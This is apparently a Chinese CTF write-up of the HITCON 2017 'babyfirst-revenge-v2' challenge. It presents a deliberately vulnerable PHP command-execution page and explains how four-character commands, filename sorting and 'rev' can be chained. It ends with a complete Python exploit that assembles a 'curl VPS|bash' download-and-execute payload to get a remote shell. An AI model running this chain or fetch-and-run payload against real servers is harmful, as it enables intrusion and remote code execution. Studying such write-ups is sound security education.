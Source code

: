 # baby-first-revenge-v2
```php
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 4) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

在 babyfirst-revenge 的基础上加大了难度，字符被限制在了 4 个以内。

这样 `ls>>c` 就无法实现，`ls -t>g` 也就无法生成。

## 反转字符串
这里就有另一个思路，因为 ls 的按字典顺序排序，由于符号(`- >`)在字母之前，才导致需要 `>>` 附加到文件尾部才能生成正确的 `ls -t>g` 命令，那么我们尝试将分段的文件名 `ls -t >g` 逆向生成，使得字母在前面，比如`g> t- sl`，之后再利用 `rev` 命令反转过来，得到正确的 `ls -t>g` 命令。

又由于 t 在 s 的后面，直接这样生成会导致排序出错，实际生成这样的命令 `g> sl t-`，因此可以加入 `h` 参数，`h` 是用作格式化 `l` 参数之后的存储量大小，不带 `l` 参数则无意义，这里的作用就是使得 `ht-` 能在 `sl` 之前，顺利生成 `g> -th sl` 命令。

## * 的作用
`*` 相当于 `$(ls *)`，所以如果列出的第一个文件名为命令的话就会返回执行的结果，之后的作为参数传入。

我们先引入 `dir` 命令，该命令在大多数系统中都是 ls 的 alias。

因此，我们可以在当前目录下生成，`g>` `-th` `sl` `dir` 文件，通过 `*>g`（实际结果就是 `dir>g`），这里用 `dir` 而不是 `ls` 则是由于字典顺序的问题，这样 `dir` 在 `*` 命令执行后才是第一个被执行的命令，因此就能产生 `ls -ht > g` 的逆序文件

然后执行 `>rev` ，`*v` 会匹配到 `rev v`，执行后则得到正序的 `ls -ht>g`。

之后的步骤则跟 babyfirst-revenge 一样了。

exp(by Orange):

```Python
import requests
from time import sleep
from urllib import quote

payload = [
    # generate "g> ht- sl" to file "v"
    '>dir',
    '>sl',
    '>g\>',
    '>ht-',
    '*>v',

    # reverse file "v" to file "x", content "ls -th >g"
    '>rev',
    '*v>x',

    # generate `curl VPS|bash`
    # * 为隐去的 VPS ip 地址十进制的某位
    '>\;\\',
    '>sh\\',
    '>ba\\',
    '>\|\\',
    '>2\\',
    '>1*\\',
    '>8*\\',
    '>5*\\',
    '>7*\\',
    '>\ \\',
    '>rl\\',
    '>cu\\',

    # got shell
    'sh x',
    'sh g',
]


r = requests.get('http://127.0.0.1:8009/?reset=1')
for i in payload:
    assert len(i) <= 4
    r = requests.get('http://127.0.0.1:8009/?cmd=' + quote(i))
    print(i)
    sleep(0.1)
```

![shell](img/shell.png)

## References
[HITCON 2017 babyfirst-revenge[-v2]浅析](https://xz.aliyun.com/t/1579)